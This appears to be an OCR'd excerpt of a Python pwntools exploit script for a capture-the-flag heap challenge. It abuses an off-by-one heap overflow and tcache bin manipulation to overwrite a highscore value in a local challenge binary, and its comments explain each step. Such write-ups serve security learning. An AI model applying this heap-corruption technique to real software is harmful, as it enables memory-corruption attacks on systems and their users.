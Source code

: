 ```python
    p.sendline(b"3")
    p.sendlineafter(b"> ", nr)

def stop_training():
    p.sendline(b"5")

def main():
    # Start a new training
    p.recvuntil(b"> ")
    p.sendline(b"1")

    # Tell your name
    p.recvuntil(b"> ")
    p.sendline(b"pwner")

    # Create a new training plan where the size field of an adjacent chunk
    # is overwritten with 0x91 by abusing the off-by-one heap overflow
    # vulnerability
    recv_menu()
    create_training(b"A"*0x48 + b"\x91")

    # Create another training plan with a name of size 0x40
    recv_menu()
    create_training(b"B"*0x40)

    # Free the training plan with the name "B"*0x40.
    # Hence there are two free chunks in the tcachebins[0x50] list
    recv_menu()
    delete_training(b"1")

    # Create two more training plans with large names such that
    # the two training_plan_t struct chunks get the two free chunks
    # of the tcachebins[0x50] list
    recv_menu()
    create_training(b"C"*0x200)
    recv_menu()
    create_training(b"D"*0x200)

    # Free the training plan with the name "A"*0x48 + "\x91".
    # Now a chunk with a real size of 0x50 is added to the tcachebins[0x90]
    # list.
    recv_menu()
    delete_training(b"0")

    # Finally, create a training plan such that the name chunk requires 0x90
    # bytes and hence gets the manipulated chunk from the tcachebins[0x90] list
    # whose real size is only 0x50 bytes.
    # Use this overflow to overwrite the trainings value of the training plan
    # with the name "C"*0x200 with the value 0x1f21f036af to beat the highscore.
    recv_menu()
    create_training(b"E"*8*16 + p64(0x1f21f036af))

    # Stop the training such that our highscore is compared with the old
    # highscore
    recv_menu()
    stop_training()

    p.interactive()

if __name__ == "__main__":
    p = process(BINARY)
    main()
```